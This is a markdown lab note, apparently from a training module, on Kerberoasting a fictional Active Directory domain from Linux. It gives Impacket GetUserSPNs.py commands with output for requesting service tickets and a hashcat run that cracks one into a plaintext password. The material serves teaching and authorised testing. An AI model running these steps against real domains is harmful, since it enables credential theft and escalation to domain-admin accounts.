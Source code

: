 # Kerberoasting - From Linux



## Kerberoasting - Performing the Attack

**Depending on your position in a network, this attack can be performed in multiple ways:**

1. From a non-domain joined Linux host using valid domain user credentials.
2. From a domain-joined Linux host as root after retrieving the keytab file.
3. From a domain-joined Windows host authenticated as a domain user.
4. From a domain-joined Windows host with a shell in the context of a domain account.
5. As SYSTEM on a domain-joined Windows host.
6. From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

### Several tools can be utilized to perform the attack:

1. Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
2. A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
3. From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

### Kerberoasting with GetUserSPNs.py
### Listing SPN Accounts with GetUserSPNs.py
    Foresty@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
    Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation
    
    Password:
    
    ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation
    ---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
    backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>
    sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>
    MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>
    MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>
    MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>
    adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>
    
    
#### Requesting all TGS Tickets
        
     
        ```
        Foresty@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
        
        Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation
        
        Password:
        ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation
        ---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
        backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>
        sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>
        MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>
        adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>
        
        $krb5tgs$23$*BACKUPAGENT$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/BACKUPAGENT*$790ae75fc53b0ace5daeb5795d21b8fe$b6be1ba275e23edd3b7dd3ad4d711c68f9170bac85e722cc3d94c80c5dca<SNIP>
      
        
#### Requesting a Single TGS ticket
        
        Foresty@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
        
        Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation
        
        Password:
        ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation
        ---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>
        $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$4ce5b71188b357b26032321529762c8a$1bdc<SNIP>

    
#### Cracking the Ticket Offline with Hashcat
    
    Foresty@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt hashcat (v6.1.1) starting...
    
    <SNIP>
    
    $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$81f3efb5827a0f<SNIP>:database!
    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: Kerberos 5, etype 23, TGS-REP
    Hash.Target......: $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIG...404c1fTime.Started.....: Tue Feb 15 17:45:29 2022, (10 secs)
    Time.Estimated...: Tue Feb 15 17:45:39 2022, (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:   821.3 kH/s (11.88ms) @ Accel:64 Loops:1 Thr:64 Vec:8Recovered........: 1/1 (100.00%) Digests
    Progress.........: 8765440/14344386 (61.11%)
    Rejected.........: 0/8765440 (0.00%)
    Restore.Point....: 8749056/14344386 (60.99%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1Candidates.#1....: davius07 -> darten170Started: Tue Feb 15 17:44:49 2022
    Stopped: Tue Feb 15 17:45:41 2022
  
    
#### USING THE CREDS
    IF YOU DIDNT KNOW WHAT CREDS ITS INDICATED, YOU CAN USE CRACKMAPEXEC TO PERFORM CHECK ON ALL SUBNETTING IP /24 OR /16
    
